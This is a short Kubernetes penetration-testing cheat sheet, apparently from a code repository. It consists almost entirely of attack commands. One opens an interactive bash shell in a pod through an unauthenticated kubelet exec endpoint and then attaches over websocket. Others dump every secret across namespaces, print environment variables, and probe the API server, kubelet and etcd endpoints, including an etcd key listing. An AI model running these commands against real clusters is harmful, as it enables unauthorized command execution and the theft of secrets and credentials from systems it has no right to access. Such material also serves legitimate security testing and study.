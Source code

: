 This is anonymous, for authenticated requests provide an Authorization header

```
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://kube-node-here:10250/exec/<namespace>/<podname>/<container-name>?command=/bin/bash&stdin=true&stderr=true&stdout=true&tty=true
```

This will return a websocket stream location. To connect use the following:

```
wscat -c "https://kube-node-here:10250/cri/exec/PfWkLulG" --no-check
```


#### Get services

```
kubectl get svc --all-namespaces
```

#### Get all secrets

```
kubectl get secrets --all-namespaces
```

#### Dump Environment Variables 

Kubernetes stores configuration information in environment variables.

```
printenv
```

#### API discovery

```
curl -k https://<IP Address>:8080
curl -k https://<IP Address>:(8|6)443/swaggerapi
curl -k https://<IP Address>:(8|6)443/healthz
curl -k https://<IP Address>:(8|6)443/api/v1
curl -k https://<IP address>:10250
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

#### Kubelet API (Read Only - Old Releases)

```
curl -k https://<IP Address>:10255
curl -k http://<IP Address>:10255/pods
```

#### etcd Key Store API

```
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```
